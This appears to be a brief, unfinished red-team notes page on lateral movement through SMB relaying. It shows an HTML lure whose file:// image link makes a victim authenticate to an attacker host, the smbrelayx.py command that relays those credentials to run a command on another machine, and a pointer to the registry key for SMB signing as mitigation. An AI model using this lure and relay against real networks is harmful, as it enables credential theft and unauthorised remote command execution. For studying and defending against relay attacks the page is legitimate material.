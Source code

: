 # Lateral Movement via SMB Relaying

{% hint style="warning" %}
WIP
{% endhint %}

## Execution

{% code-tabs %}
{% code-tabs-item title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
smbrelayx.py -h 10.0.0.6 -c "ipconfig"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-30-22-33-59.png)

![](../.gitbook/assets/peek-2018-12-30-22-31.gif)

## Mitigation

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
```

![](../.gitbook/assets/screenshot-from-2018-12-30-22-29-05.png)

![](../.gitbook/assets/screenshot-from-2018-12-30-22-38-24.png)

![](../.gitbook/assets/screenshot-from-2018-12-30-22-36-01.png)

## References

{% embed url="https://ramnathshenoy.wordpress.com/2017/03/19/lateral-movement-with-smbrelayx-py/" %}

{% embed url="https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/" %}

{% embed url="https://nmap.org/nsedoc/scripts/smb-security-mode.html" %}



